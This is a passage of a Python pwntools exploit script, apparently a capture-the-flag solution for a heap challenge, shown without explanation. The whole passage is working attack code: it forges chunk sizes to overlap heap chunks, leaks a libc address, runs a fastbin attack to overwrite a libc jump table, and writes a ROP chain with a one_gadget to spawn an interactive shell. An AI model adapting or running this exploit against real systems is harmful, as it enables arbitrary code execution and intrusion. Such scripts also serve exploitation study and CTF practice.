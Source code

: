 ```Python
    allocate(io, 0x98)  # 3
    allocate(io, 0x18)  # 4
    allocate(io, 0x68)  # 5 - will be used to fastbin attack - goes into 0x70 fastbin chunks.
    allocate(io, 0x18)  # 6

    fill(io, 0, 0x30, bytes(0x28) + pwn.p64(((0xa0 + 0xa0) & CHUNK_ALIGNMENT) | PREV_INUSE))
    free(io, 1)
    free(io, 3)  # Will consolidate with 1.
    allocate(io, 0xa0 + 0xa0 + 0xa0 - 0x8)  # 1

    # Now, since we got 1 through calloc, we need to fake a chunk at offset 0x98 before freeing #2
    fill(io, 1, 0xa0, bytes(0x98) + pwn.p64(
        (0x98 + 0x8 + 0x98 + 0x8) & CHUNK_ALIGNMENT | PREV_INUSE))  # must point to chunk 4, since 1 and 3 consolidated.

    # after free, 1 and 2 overlap.
    free(io, 2)
    free_unsortedbin_content_bytearray = dump(io, 1)
    text_offset = 0x12
    libc_leak_bytes = free_unsortedbin_content_bytearray[0xa0 + text_offset:0xa8 + text_offset]
    libc_leak = pwn.u64(libc_leak_bytes)
    # libc_base = libc_leak - 3939160
    libc_base = libc_leak - 3951480  # new libc
    chunk_fd_offset = 0x8
    fastbin_chunk_addr = libc.symbols["_IO_wide_data_0"] + libc_base + 304 + 5 - chunk_fd_offset
    free(io, 5)  # goes into fastbin 0x70
    fill(io, 4, 0x18 + 0x8 + 0x8,
         bytes(0x18) + pwn.p64(((0x70) & CHUNK_ALIGNMENT) | PREV_INUSE) + pwn.p64(fastbin_chunk_addr))
    allocate(io, 0x68)  # 2
    allocate(io, 0x68)  # 3 - this chunk will be located at fastbin_chunk_addr
    get_stack_ptr_gadget_rva = 0x0000000000033ea6  # mov rax, rcx; ret;
    get_stack_ptr_gadget = libc_base + get_stack_ptr_gadget_rva
    jump_table_payload = bytes(3) + pwn.p64(get_stack_ptr_gadget) * 3
    fill(io, 3, len(jump_table_payload), jump_table_payload)

    allocate(io, 0x8)  # 5

    one_gadget_rva = 0x45216  # new libc
    # Now chunk 5 points to the stack.
    one_gadget_address = libc_base + one_gadget_rva
    zero_rax_gadget_rva = 0x000000000008b8c5
    zero_rax_gadget = libc_base + zero_rax_gadget_rva
    rop_payload = bytes(8 * 3) + pwn.p64(zero_rax_gadget) + pwn.p64(one_gadget_address)
    fill(io, 5, len(rop_payload), rop_payload)
    
    io.interactive()


main()

```
